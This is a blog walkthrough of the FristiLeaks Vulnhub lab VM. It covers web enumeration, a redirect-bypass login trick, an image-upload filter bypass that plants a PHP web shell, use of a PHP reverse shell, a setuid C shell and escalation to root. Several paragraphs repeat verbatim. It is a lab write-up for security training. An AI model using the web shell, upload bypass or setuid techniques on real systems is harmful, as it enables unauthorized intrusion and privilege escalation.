FristiLeaks is an easy OSCP-like boot to root VM hosted on Vulnhub. The goal in this challenge is to obtain root in the box and read the flag.
Port Scan
Normally, the first thing to do when dealing with Vulnhub machines is to scan the network (I use Nmap to do so) to find the IP of the vulnerable machine, but in this case the machine tells us its IP in the login prompt. 
In the scan we can see that the only open port is 80, which usually is HTTP.
Port 80 Initial Enumeration

In the Nmap output for port 80 using the default scripts we can see that robots.txt has three disallowed entries. Also, we can see that the webserver uses
Apache httpd 2.2.15, PHP version 5.3.3 and the distribution is CentOS.
The root page of the web has nothing interesting at first glance, but there is this image which will be useful later.
 Also, inside of the robots.txt file we can see the three disallowed entries.

All the disallowed entries have the same image saying “This is not the URL you were looking for” (I didn’t get a screenshot of this).
At this point I wasn’t sure about what to do, as I didn’t find any interesting vulnerabilities for the server and neither did both Nikto and gobuster.
Also, inside of the robots.txt file we can see the three disallowed entries.

All the disallowed entries have the same image saying “This is not the URL you were looking for” (I didn’t get a screenshot of this).
At this point I wasn’t sure about what to do, as I didn’t find any interesting vulnerabilities for the server and neither did both Nikto and gobuster.
Using a bit of guess work I found the directory fristi. All the entries in the robots.txt are drinks and, according to the image, fristi is also a drink. Maybe using a
wordlist generated by CEWL and gobuster you can find the directory, but I didn’t think about this when I was enumerating the box.
Fristi Directory
The index.php file of this directory is a login page which isn’t vulnerable to SQLInjection (or at least I couldn’t find it), but I found two different ways to
“bypass” it.
First Method
In the source code we can see some interesting comments.

 
We get a possible username (eezeepz) inside of the first commentary and a base64 encoded image. If we decode it we can see that it is a PNG image.

We get a possible username (eezeepz) inside of the first commentary and a base64 encoded image. If we decode it we can see that it is a PNG image.

 Here we can guess that the user “eezeepz” has the password “keKkeKKeKKeKkEkkEk”. A successful login redirects us to the “upload.php” page.
Here we can guess that the user “eezeepz” has the password “keKkeKKeKKeKkEkkEk”. A successful login redirects us to the “upload.php” page.
Second Method
Using gobuster with the .php extension we can find the “uploads” directory, which hasn’t directory listing activated and “upload.php”, which redirects us to the login page.
Intercepting the request to “upload.php” using BurpSuite we can see that there is more content below the redirection. If we rewrite the status code (302 FOUND) to 200 OK, we can see the upload page without knowing the credentials.

File Upload + RCE
The page only allows uploading images, but it can be bypassed easily. You just need to change the magic bytes to something that will be detected as an image, as well as using the correct extension.
I didn’t try using the correct extension without changing the magic bytes, but it probably doesn’t work. In my case, I used GIF87a as the magic bytes and created a really simple php shell to test if the RCE was possible.
GIF87a
#The echo is redundant, as system prints the output of the command executed.
<?php echo system($_REQUEST['cmd'])?> 
 This shell works pretty well, but it can’t execute commands that need arguments (strangely, it works fine in my machine, hosting the shell using php -S localhost:8000).
This shell works pretty well, but it can’t execute commands that need arguments (strangely, it works fine in my machine, hosting the shell using php -S localhost:8000).
To use it you just need to pass the command inside the cmd argument, it accepts both GET and POST requests. In my case, I executed the whoami command.

After I checked that the simple shell really worked, I uploaded a php reverse shell (the one inside /usr/share/webshells/php/php-reverse-shell.php on Kali) and set a listener on port 1234.

Apache Shell
The first thing I did was upgrading the shell to a more functional one.
 Inside the “checklogin.php” file we can get the hardcoded mysql credentials, but we can only read the username and the password required to access the “upload.php” page.

Inside the file located at “/var/www/notes.txt” there is an interesting message.
Inside the “checklogin.php” file we can get the hardcoded mysql credentials, but we can only read the username and the password required to access the “upload.php” page.

Inside the file located at “/var/www/notes.txt” there is an interesting message.
 If we go to the “/home/eezeepz” directory we can see lots of uninteresting files and another notes.txt.

Essentially this is saying that we can run commands as another user. I found two ways to exploit this, but I only used the easiest as the other one was too time consuming.
If we go to the “/home/eezeepz” directory we can see lots of uninteresting files and another notes.txt.

Essentially this is saying that we can run commands as another user. I found two ways to exploit this, but I only used the easiest as the other one was too time consuming.
First Method (not used)
Looking inside the “/usr/bin/” directory we can see the gcc binary, so I created a pretty simple C shell that uses the “setuid()” system call to run as another user.
My idea is to upload the file to the box (using the http.server module in python3 to serve the file), make the other user compile the shell and setting the SetUID bit, as well as giving execute permissions to others.
The shell that I used was really simple for the sake of saving time, but I could have used a more interactive shell if it was necessary.
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char** argv) {
if (argc != 3) {
printf("Usage: ./shell <command> <uid> (no arguments for the command)\n");
exit(0);
}
int uid = atoi(argv[2]);
if (setuid(uid) < 0) {
perror("Setuid\n");
exit(1);
}
if (execl(argv[1], argv[1],(char*) NULL) < 0) {
perror("Error executing command\n");
exit(1);
}
}Inside the “/tmp/runthis” file I wrote the necessary commands to do this and I read the uid from the “/etc/passwd” file, which I’m not including because it’s too large.
/usr/bin/gcc /tmp/shell.c -o /tmp/shell
/home/admin/chmod u+s /tmp/shell
/home/admin/chmod o+x /tmp/shell

Second Method + PrivEsc
We can read the “/home/admin/” directory if we change the permissions using the “/tmp/runit” file and the chmod command.
Inside this directory there are two seemingly encrypted files (cryptedpass.txt and whoisyourgodnow.txt) and a python script which encrypts them (I didn’t take a screenshot of this, I don’t know why).
The python script only base64 encodes the supplied password, then it reverses it and finally it encrypts it using the ROT13 method. If we reverse these steps, we can read the plaintext password.

 The first picture has the unencrypted text inside of “cyptedpass.txt”, while the second has the text inside “whoisyourgodnow.txt”.
The first picture has the unencrypted text inside of “cyptedpass.txt”, while the second has the text inside “whoisyourgodnow.txt”.
LetThereBeFristi! (inside whoisyourgodnow.txt) is the password for the fristigod user.
Root PrivEsc
Executing the “sudo -l” command as user fristigod and supplying the “LetThereBeFristi!” password outputs this:

And if we check the “/var/fristigod/.secret_admin_stuff/” we can see that the doCom binary has the SetUid bit and is owned by root.
 Using the “sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom” command we can check the usage of this binary, which allows us to run commands as root.
Using the “sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom” command we can check the usage of this binary, which allows us to run commands as root.
Running the “/bin/bash” command grants us an interactive shell as root and then we can read the flag inside “/root/fristileaks_secrets.txt”.

Conclusion
This is a fairly easy box, although I got stucked for while at the first part because I didn’t guess that fristi was the correct directory.
I’ve learnt how to use the setuid() system call, which I think is pretty useful and that I need to take more screenshots before reporting.